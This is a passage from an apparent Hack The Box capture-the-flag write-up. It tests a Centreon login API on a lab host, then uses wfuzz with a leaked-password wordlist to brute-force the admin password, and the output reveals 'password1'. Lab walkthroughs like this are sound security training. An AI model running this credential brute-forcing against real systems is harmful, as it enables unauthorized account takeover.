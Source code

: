 ![](/assets/images/htb-writeup-wall/Screenshot_8.png)

The login API seems to work:

```
# curl -XPOST -d 'username=user&password=pass' 10.10.10.157/centreon/api/index.php?action=authenticate
"Bad credentials"
```

Next, I'll use wfuzz with a wordlist to bruteforce a valid login:

```
# wfuzz -w /opt/SecLists/Passwords/Leaked-Databases/rockyou-10.txt --hs 'Bad credentials' -XPOST -d 'username=admin&password=FUZZ' http://10.10.10.157/centreon/api/index.php?action=authenticate

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 92

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000027:   200        0 L      1 W      60 Ch       "password1"

Total time: 2.605513
Processed Requests: 92
Filtered Requests: 91
Requests/sec.: 35.30973
```
